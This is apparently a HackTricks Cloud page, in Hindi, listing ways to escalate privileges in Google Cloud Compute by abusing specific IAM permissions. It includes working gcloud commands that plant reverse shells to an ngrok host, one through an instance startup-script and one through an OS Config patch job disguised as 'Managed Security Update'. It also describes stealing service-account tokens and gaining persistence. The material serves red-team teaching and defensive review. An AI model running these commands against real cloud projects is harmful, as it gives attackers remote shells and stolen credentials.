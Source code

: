 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP में Compute और VPC (नेटवर्क) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
ध्यान दें कि उन सभी विशेषाधिकार वृद्धि हमलों को करने के लिए जो उदाहरण के मेटाडेटा को संशोधित करने की आवश्यकता होती है (जैसे नए उपयोगकर्ताओं और SSH कुंजियों को जोड़ना) यह **आवश्यक है कि आपके पास उदाहरण से जुड़े SA पर `actAs` अनुमतियाँ हों**, भले ही SA पहले से ही जुड़ा हो!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

इस अनुमति के साथ आप **संशोधित** कर सकते हैं **मेटाडेटा** जानकारी को एक **उदाहरण** का और **एक उपयोगकर्ता के अधिकृत कुंजियों** को बदल सकते हैं, या **sudo** अनुमतियों के साथ **एक नया उपयोगकर्ता बना सकते हैं**। इसलिए, आप किसी भी VM उदाहरण में SSH के माध्यम से exec करने में सक्षम होंगे और उस GCP सेवा खाते को चुरा सकते हैं जिसके साथ उदाहरण चल रहा है।\
सीमाएँ:

* ध्यान दें कि VM उदाहरणों में चलने वाले GCP सेवा खातों का डिफ़ॉल्ट रूप से **बहुत सीमित दायरा** होता है।
* आपको लॉगिन करने के लिए **SSH** सर्वर से संपर्क करने में **सक्षम होना** आवश्यक है।

इस अनुमति का लाभ उठाने के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

आप नए स्टार्टअप-स्क्रिप्ट को जोड़कर और उदाहरण को पुनरारंभ करके भी इस हमले को कर सकते हैं:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

यह अनुमति **पिछली अनुमति के समान विशेषाधिकार देती है** लेकिन एक विशिष्ट उदाहरण पर, पूरे प्रोजेक्ट के बजाय। **पिछले अनुभाग के लिए समान शोषण और सीमाएँ लागू होती हैं**।

### `compute.instances.setIamPolicy`

इस प्रकार की अनुमति आपको **पिछली अनुमतियों के साथ एक भूमिका देने** और उनका दुरुपयोग करके विशेषाधिकार बढ़ाने की अनुमति देगी।

### **`compute.instances.osLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार नहीं होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### **`compute.instances.osAdminLogin`**

यदि **OSLogin उदाहरण में सक्षम है**, तो इस अनुमति के साथ आप बस **`gcloud compute ssh [INSTANCE]`** चला सकते हैं और उदाहरण से कनेक्ट कर सकते हैं। आपके पास उदाहरण के अंदर **रूट विशेषाधिकार होंगे**।

{% hint style="success" %}
इस अनुमति के साथ VM उदाहरण के अंदर सफलतापूर्वक लॉगिन करने के लिए, आपको VM से जुड़े SA पर `iam.serviceAccounts.actAs` अनुमति होनी चाहिए।
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

यह संभव है कि **एक असाइन की गई सेवा खाता के साथ एक वर्चुअल मशीन बनाई जाए और सेवा खाता का टोकन चुराया जाए** जिससे विशेषाधिकार बढ़ाने के लिए मेटाडेटा तक पहुंचा जा सके।

इस विधि के लिए शोषण स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) मिल सकती है।

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

यदि आपके पास **`osconfig.patchDeployments.create`** या **`osconfig.patchJobs.exec`** अनुमतियाँ हैं, तो आप एक [**पैच नौकरी या तैनाती**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) बना सकते हैं। यह आपको वातावरण में पार्श्व रूप से आगे बढ़ने और प्रोजेक्ट के भीतर सभी कंप्यूट उदाहरणों पर कोड निष्पादन प्राप्त करने की अनुमति देगा।

ध्यान दें कि वर्तमान में आपको **उदाहरण से जुड़े SA पर `actAs` अनुमति** की आवश्यकता नहीं है।

यदि आप इसे मैन्युअल रूप से शोषण करना चाहते हैं, तो आपको या तो एक [**पैच नौकरी**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **या** [**तैनाती**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)** बनानी होगी।**\
पैच नौकरी चलाने के लिए: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

एक पैच डिप्लॉयमेंट को तैनात करने के लिए:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) को इस गलत कॉन्फ़िगरेशन का फायदा उठाने के लिए अतीत में उपयोग किया जा सकता था (लेकिन अब यह काम नहीं कर रहा है)।

**एक हमलावर इसे स्थिरता के लिए भी दुरुपयोग कर सकता है।**

### `compute.machineImages.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** कंप्यूट इमेज पर दें।

### `compute.snapshots.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क स्नैपशॉट पर दें।

### `compute.disks.setIamPolicy`

**अपने लिए अतिरिक्त अनुमतियाँ** एक डिस्क पर दें।

### एक्सेस स्कोप को बायपास करें

इस लिंक का पालन करते हुए आप कुछ [**विचार पाएंगे जो एक्सेस स्कोप को बायपास करने के लिए आजमाए जा सकते हैं**](../)。

### GCP Compute इंस्टेंस में स्थानीय विशेषाधिकार वृद्धि

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
